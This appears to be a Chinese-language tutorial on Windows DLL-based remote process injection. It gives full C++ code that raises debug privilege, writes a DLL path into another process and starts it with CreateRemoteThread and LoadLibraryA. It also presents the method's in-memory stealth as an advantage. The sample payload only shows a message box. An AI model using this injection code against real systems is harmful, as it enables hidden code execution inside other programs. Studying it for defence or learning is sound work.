 # Process Injection  

------------------------------  

### 0x00 前言  
远程进程注入：将自己的代码放在目标进程的地址空间里运行，实现对内存中的某个进程进行操作，并且获得该进程地址空间里的数据，或者修改进程的私有数据结构。

利用 DLL 文件，在 DLL 文件第一次被装载进进程时，会执行 DLLMain 中的 DLL\_PROCESS\_ATTACH 下的代码。  

进程注入的优点是：  

1. 需要插入到远程进程的内存空间是通过virtualAllocEx这样的函数分配的，只存在于内存中，如果不是内存查杀，很难发现。
2. 可以复用宿主进程的名称、端口，更加隐蔽  



### 0x01 进程注入流程    
进程注入的流程：  

1. 将系统权限提升到Debug模式，因为只有debug模式才能打开远程进程的handle。(`EnableDebugPrivilege`)
2. 打开远程进程。(`OpenProcess`)
3. 将 DLL 文件的路径分配到目标内容空间中。(`VirtualAllocEx`)
4. 将DLL文件内容写入到远程进程。(`WriteProcessMemory`)
5. 在宿主进程中启动新线程完成插入。(`CreateRemoteThread`)


>上面提到的函数到 MSDN 查看详细的使用方法。


### 0x02 程序  
恶意的 DLL 文件代码： 
`DllHeader.h`:  

	#ifndef dllDemoHeader	#define dllDemoHeader	#ifdef DLLDEMO	#define EXPOETS_DEMO _declspec(dllexport)	#else	#define EXPORTS_DEMO _declspec(dllimport)	#endif	extern "C" EXPORTS_DEMO int add(int a, int b);	#endif
	
`Main`:  

	#include <windows.h>	#include "DllHeader.h"	//dll Entry Point Function	bool APIENTRY DllMain(HANDLE hModule, DWORD dwReason, void* lpReserved) {		switch(dwReason) {			//it can be executed when first time loaded 			case DLL_PROCESS_ATTACH:				MessageBox(NULL, TEXT("Hello DLL~"), TEXT("Title"), MB_OK);				break;			//			case DLL_THREAD_ATTACH:				break;			//			case DLL_THREAD_DETACH:				break;			//			case DLL_PROCESS_DETACH:				break;		}		return true;	}	int add(int a, int b) {		return a + b;	}




进程插入代码： 

	/**	 * Description: This is example for process inject.	 *	Author: xx	 * Time: 2017.2.22	 * Version: 0.1	 */	#include <iostream>	#include <windows.h>	using namespace std;	//	int EnableDebugPrivilege(const char* name);	int main(int argc, char* argv[]) {		char filePath[MAX_PATH];		//MAX_PATH是C语言运行时库中通过#define指令定义的一个宏常量，它定义了编译器所支持的最长全路径名的长度。		HANDLE hRemoteProcess;		char* pszLibFileRemote;		bool retVal;		//Adjust privilege "DEBUG"		EnableDebugPrivilege(SE_DEBUG_NAME);		GetCurrentDirectory(MAX_PATH, filePath);		strcat(filePath, "\\DllTest.dll");		cout << filePath << endl;		//打开目标进程		hRemoteProcess = OpenProcess(PROCESS_ALL_ACCESS, false, 284);		if(hRemoteProcess == NULL) {			cout << "OpenProcess() Failed" << endl;		}		//为 dll 路径分配内存空间		pszLibFileRemote = (char*)VirtualAllocEx(hRemoteProcess, NULL, strlen(filePath)+1, MEM_COMMIT, PAGE_READWRITE);		if(pszLibFileRemote == NULL) {			cout << "VirtualAllocEx() Failed" << endl;		}		//将 dll 路径写入内存空间		retVal = WriteProcessMemory(hRemoteProcess, pszLibFileRemote, filePath, strlen(filePath)+1, NULL);		if(retVal == 0) {			cout << "WriteProcessMemory() Failed" << endl;		}		//得到 LoadLibraryA 的内存地址		PTHREAD_START_ROUTINE pfnStartAddr = (PTHREAD_START_ROUTINE)GetProcAddress(GetModuleHandle("kernel32.dll"), "LoadLibraryA");		if(pfnStartAddr == NULL) {			cout << "GetProcAddress() Failed" << endl;		}		//创建远程子线程		HANDLE hRemoteThread;		hRemoteThread = CreateRemoteThread(hRemoteProcess, NULL, 0, pfnStartAddr, pszLibFileRemote, 0, NULL);		if(hRemoteThread == NULL) {			cout << "CreateRemoteThread() Failed" << endl;		}		else {			cout << "Inject Success" << endl;		}		CloseHandle(hRemoteProcess);		CloseHandle(hRemoteThread);		system("pause");		return 0;	}	int EnableDebugPrivilege(const char* name) {		HANDLE hToken;		TOKEN_PRIVILEGES tp;		LUID luid;		OpenProcessToken(GetCurrentProcess(), TOKEN_ADJUST_PRIVILEGES | TOKEN_QUERY, & hToken);		LookupPrivilegeValue(NULL, name, &luid);		tp.PrivilegeCount = 1;		tp.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;		tp.Privileges[0].Luid = luid;		if(AdjustTokenPrivileges(hToken, 0, &tp, sizeof(TOKEN_PRIVILEGES), NULL, NULL)) {			cout << "AdjustTokenPrivileges Success" << endl;		}		return 0;	}




</br> 

-------------------------------
References: 
cnblogs.茄子写字板:  <http://www.cnblogs.com/handt/archive/2012/08/09/2627277.html>  
淡泊明志，宁静致远:  <http://andylin02.iteye.com/blog/459483>  
</br>
Author: xx  
Time: 2017.2.22